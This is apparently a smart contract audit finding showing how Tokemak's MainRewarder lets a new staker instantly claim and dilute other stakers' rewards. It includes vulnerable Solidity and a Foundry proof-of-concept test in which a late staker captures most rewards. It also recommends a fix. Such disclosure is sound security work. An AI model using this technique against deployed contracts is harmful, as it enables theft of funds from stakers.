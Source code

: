 Nice Maroon Frog

high

# `MainRewarder` staking rewards are diluted by new stakers resulting in less rewards for existing stakers
## Summary

The `LMPVault` and `DestinationVault` contracts call the `MainRewarder.stake` function too late, after new shares have been issued. This dilutes the rewards for existing stakers and allows new stakers to immediately accrue and withdraw staking rewards.

## Vulnerability Detail

Both the `LMPVault` and `DestinationVault` contracts have a `MainRewarder` rewarder instance associated with them. The `MainRewarder` contract does not keep track of staked tokens itself. Instead, it uses the associated vault tokens as a tracker. This is different from the forked [Synthetix `StakingRewards` contract](https://github.com/Synthetixio/synthetix/blob/113b5ffd30c549d2b15fc7c726945467a8eb17c7/contracts/StakingRewards.sol).

This leads to issues when calculating the rewards per token, as the calculation uses the total token supply of the tracked token. Retrieving the total token supply with the `stakeTracker.totalSupply` function returns the already increased supply, due to calling the `MainRewarder.stake` function within the `ERC20._afterTokenTransfer` function of both the `LMPVault` ([line 863](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L863)) and `DestinationVault` ([line 351](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/DestinationVault.sol#L351)) contract.

The first time someone stakes, i.e., the `MainRewarder.stake` is called, internally, the state variables are updated within the `AbstractRewarder._updateReward`. The staker's rewards are also calculated and stored in `rewards[account]`, as seen in line 135. The culprit is that the `earned` function already returns rewards for the staker, even though the staker just staked and no blocks have passed yet.

[src/rewarders/AbstractRewarder.sol#L134-L136](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L134-L136)

```solidity
128: function _updateReward(address account) internal {
129:     uint256 earnedRewards = 0;
130:     rewardPerTokenStored = rewardPerToken();
131:     lastUpdateBlock = lastBlockRewardApplicable();
132:
133:     if (account != address(0)) {
134:         earnedRewards = earned(account);
135:         rewards[account] = earnedRewards;
136:         userRewardPerTokenPaid[account] = rewardPerTokenStored;
137:     }
138:
139:     emit UserRewardUpdated(account, earnedRewards, rewardPerTokenStored, lastUpdateBlock);
140: }
```

This issue is caused due to the `balanceOf` function already incorporating the staker's shares of the tracker contract and `userRewardPerTokenPaid[account]` being zero for the staker's first stake.

[src/rewarders/AbstractRewarder.earned(..)](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L205)

```solidity
204: function earned(address account) public view returns (uint256) {
205:     return (balanceOf(account) * (rewardPerToken() - userRewardPerTokenPaid[account]) / 1e18) + rewards[account];
206: }
```

Consequently, the rewards per token are diluted and current stakers receive less rewards than anticipated. Specifically, a new staker (i.e., user depositing into `LMPVault`) immediately accrues rewards and can withdraw them, effectively stealing rewards from other stakers.

The following test case demonstrates this issue by having Bob stake at the end of the reward period, immediately receiving a huge chunk of rewards and diluting the rewards for the `RANDOM` user:

<details>
  <summary><strong>Test case (click to reveal)</strong></summary>

```diff
diff --git a/v2-core-audit-2023-07-14/test/mocks/StakeTrackingMock.sol b/v2-core-audit-2023-07-14/test/mocks/StakeTrackingMock.sol
index 32a3d92..ee49209 100644
--- a/v2-core-audit-2023-07-14/test/mocks/StakeTrackingMock.sol
+++ b/v2-core-audit-2023-07-14/test/mocks/StakeTrackingMock.sol
@@ -3,13 +3,25 @@
 pragma solidity 0.8.17;

 import { IStakeTracking } from "src/interfaces/rewarders/IStakeTracking.sol";
+import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";

-contract StakeTrackingMock is IStakeTracking {
-    function totalSupply() external pure returns (uint256) {
-        return 100_000_000_000_000_000;
+contract StakeTrackingMock is ERC20, IStakeTracking {
+
+    constructor() ERC20("StakeTrackingMock", "SMock") {}
+
+    function mint(address account, uint256 amount) external {
+        _mint(account, amount);
+    }
+
+    function burn(address account, uint256 amount) external {
+        _burn(account, amount);
+    }
+
+    function totalSupply() public view override(ERC20, IStakeTracking) returns (uint256) {
+        return super.totalSupply();
     }

-    function balanceOf(address) external pure returns (uint256) {
-        return 100_000_000_000_000_000;
+    function balanceOf(address account) public view override(ERC20, IStakeTracking) returns (uint256) {
+        return super.balanceOf(account);
     }
 }
diff --git a/v2-core-audit-2023-07-14/test/rewarders/RewardVault.t.sol b/v2-core-audit-2023-07-14/test/rewarders/RewardVault.t.sol
index 8373946..8b96047 100644
--- a/v2-core-audit-2023-07-14/test/rewarders/RewardVault.t.sol
+++ b/v2-core-audit-2023-07-14/test/rewarders/RewardVault.t.sol
@@ -41,7 +41,7 @@ contract MainRewarderTest is BaseTest {
     ERC20Mock private extraReward1;
     ERC20Mock private extraReward2;

-    uint256 private amount = 100_000;
+    uint256 private amount = 100e18;
     uint256 private newRewardRatio = 800;
     uint256 private durationInBlock = 100;

@@ -169,6 +169,34 @@ contract MainRewarderTest is BaseTest {
         assertEq(extraReward2BalanceAfter - extraReward2BalanceBefore, amount);
     }

+    function test_getAllRewards_exploit() public {
+        stakeTracker.mint(RANDOM, amount);
+
+        assertEq(mainRewardVault.currentRewards(), 100e18);
+
+        vm.prank(address(stakeTracker));
+        mainRewardVault.stake(RANDOM, amount);
+
+        vm.roll(block.number + 100); // skip to the end of the reward period
+
+        uint256 earned = mainRewardVault.earned(RANDOM);
+        assertEq(earned, amount);
+
+        address bob = vm.addr(3);
+        vm.label(bob, "Bob");
+
+        stakeTracker.mint(bob, 1_000e18); // Bob acquires a large stake in the `stakeTracker`
+
+        vm.prank(address(stakeTracker));
+        mainRewardVault.stake(bob, 1_000e18); // Bob stakes at the end of the reward period
+
+        uint256 bobEarned = mainRewardVault.earned(bob);
+        uint256 randomEarned = mainRewardVault.earned(RANDOM);
+
+        assertApproxEqRel(bobEarned, 90e18, 0.02e18); // 2% error // @audit-info Bob receives immediately almost 90e18 staking rewards
+        assertApproxEqRel(randomEarned, 10e18, 0.1e18); // 10% error // @audit-info Random got diluted by Bob
+    }
+
     function test_toke_autoStakeRewards() public {
         _runTokeStakingTest(30 days, 0, true);
     }
```

**How to run this test case:**

Save git diff to a file named `exploit-rewards.patch` and run with

```bash
git apply exploit-rewards.patch
forge test -vv --match-test "test_getAllRewards_exploit"
```

Result:

```bash
Running 1 test for test/rewarders/RewardVault.t.sol:MainRewarderTest
[PASS] test_getAllRewards_exploit() (gas: 421092)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.98s
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

## Impact

Stakers can immediately accrue and withdraw staking rewards, leading to diluted rewards for other stakers and stealing rewards.

## Code Snippet

[src/rewarders/AbstractRewarder.rewardPerToken()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L180)

`totalSupply()` incorporates the already minted shares of the tracked token (i.e., `LMPVault` or `DestinationVault`), diluting the rewards for existing stakers.

```solidity
174: function rewardPerToken() public view returns (uint256) {
175:     uint256 total = totalSupply();
176:     if (total == 0) {
177:         return rewardPerTokenStored;
178:     }
179:
180:     return rewardPerTokenStored + ((lastBlockRewardApplicable() - lastUpdateBlock) * rewardRate * 1e18 / total);
181: }
```

## Tool used

Manual Review

## Recommendation

Consider calling the `stake` function of the `MainRewarder` function before the `LMPVault` and `DestinationVault` token total supply is increased, i.e., in the `_beforeTokenTransfer` function instead of the `_afterTokenTransfer` function.
